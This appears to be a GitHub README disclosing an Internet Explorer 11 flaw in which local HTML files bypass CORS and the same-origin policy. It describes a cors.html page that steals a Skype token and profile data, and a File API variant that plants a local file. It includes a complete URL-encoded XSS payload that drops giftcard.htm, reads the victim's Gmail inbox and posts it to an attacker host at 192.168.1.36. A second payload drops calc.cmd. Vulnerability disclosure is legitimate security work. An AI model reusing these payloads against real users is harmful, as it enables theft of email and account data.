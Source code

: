 # IE11xCORSxSOP
IE11 is not following CORS specification for local files like Chrome and Firefox.<br>
I've contacted Microsoft and they say this is not a security issue so I'm sharing it.<br>
From my tests IE11 is not following CORS specifications for local files as supposed to be.<br>
In order to prove I've created a malicious cors.html.<br>
The cors.html will be able to get an skype token and perform get on the user profile. Instead of using alert() function I could send this information to a domain that I have control.<br>
Of course the victim needs to open the file from his local drive or maybe another application can open an IE instance.<br>
If the user is logged on a Microsoft account and open the html file with the content above with onload function instead of onclick I'd be able to get his profile data.<br>
This is a simple scenario. An attacker would be able to get any data from any domain that do not require a unique ID (e.g. CSRF token) which the attacker doesn't have and is unable to get.<br>
If you do the same test on Chrome or Firefox the browser will follow CORS specification and block the response content since no CORS headers is present in the response.<br>
I tested on IE11 running on Win7SP1  with all security patches and it worked. On Win10 didn't work. I didn't test in any server with CORS enabled.<br>
If you think in another malicious scenario please let me know.

I did a small improvement in this attack.
Using IE File API (https://msdn.microsoft.com/en-us/library/hh772315(v=vs.85).aspx) an attacker would be able to create a web page with the content of fileAPI.html and send to a victim.
A local file with the same content of cors.html would be created on download default folder.
If the victim perform the three following clicks (Save, Open and Allow blocked content) an attacker would be able to perform any request to any domain and send the content to a domain which he/she has control.
If the attacker is a MitM position this could be more intersting. Since the attacker could inject this content in a HTTP page and the victim will tend to relay on that.
Next step would be force the victim to click on Save, Open and Allow blocked content buttons.

Same attack using XSS as vector.
Imagine that https://xss-doc.appspot.com is a site about gift cards.
The XSS payload below will create a giftcard.htm file in the default download folder.
If the victim open the file a GET to https://mail.google.com/mail/u/0/#inbox will be submitted.
After the GET the file will perform a POST to http://192.168.1.36/req.php using the GET response as a body.
An attacker would be able to read all the emails in the following requests.
I tested on Win7SP1 and IE11 with all patches and it worked.

https://xss-doc.appspot.com/demo/2?query=%3Cscript%3Eif%28typeof+Blob+%21%3D%3D+%22undefined%22%29%7BdemoBlobs%28%29%3B%7Dfunction+demoBlobs%28%29%7Bvar+blob+%3D+new+Blob%28%5B%22%3Chtml%3E%3Cbody+onload%3D%5C%22go%28%29%5C%22%3E%3Cscript%3Efunction+req%28mtd%2Curl%2Cbdy%29%7Bvar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28mtd%2Curl%2Cfalse%29%3Bxhr.send%28bdy%29%3Breturn+xhr.responseText%3B%7D%3Bfunction+go%28%29%7Bvar+gmail%3Dreq%28%5C%22GET%5C%22%2C%5C%22https%3A%5C%2F%5C%2Fmail.google.com%5C%2Fmail%5C%2Fu%5C%2F0%5C%2F%23inbox%5C%22%2Cnull%29%3Breq%28%5C%22POST%5C%22%2C%5C%22http%3A%5C%2F%5C%2F192.168.1.36%5C%2Freq.php%5C%22%2Cgmail%29%7D%3B%3C%5C%2Fscript%3E%3C%5C%2Fbody%3E%3C%5C%2Fhtml%3E%22%5D%29%3B+++window.navigator.msSaveBlob%28blob%2C+%27giftcard.htm%27%29%3B%7D%3C%2Fscript%3E


BTW using file API on IE and a single XSS you can do the same stuff as RFD attack (https://www.trustwave.com/Resources/SpiderLabs-Blog/Reflected-File-Download---A-New-Web-Attack-Vector/).

https://xss-doc.appspot.com/demo/2?query=%3Cscript%3Eif(typeof%20Blob%20!%3D%3D%20%22undefined%22)%7BdemoBlobs()%3B%7Dfunction%20demoBlobs()%7Bvar%20blob%20%3D%20new%20Blob(%5B%22calc%22%5D)%3Bwindow.navigator.msSaveBlob(blob%2C%20%27calc.cmd%27)%3B%7D%3C%2Fscript%3E
